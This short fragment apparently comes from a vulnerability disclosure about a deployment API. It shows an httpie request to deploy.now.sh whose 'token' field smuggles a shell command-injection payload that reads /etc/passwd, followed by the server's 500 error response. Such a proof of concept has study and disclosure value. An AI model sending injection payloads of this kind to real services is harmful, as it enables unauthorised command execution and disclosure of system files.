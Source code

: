 echo '{"repo":"https://github.com/zeit/next.js/tree/master/examples/with-apollo","config":{"token":"`cat /etc/passwd >&2`; exit; ","docker":false,"envs":[]}}' | http POST https://deploy.now.sh/api/deploy
HTTP/1.1 500 Internal Server Error
Connection: keep-alive
Content-Length: 1413
Content-Type: application/json; charset=utf-8
Date: Mon, 29 Jan 2018 15:22:22 GMT
ETag: W/"585-aiJiN+GLqUjJ8Moh1gONeRB49KQ"
Server: now
X-Now-Region: now-bru
X-Powered-By: Express

{
    "error": ...
}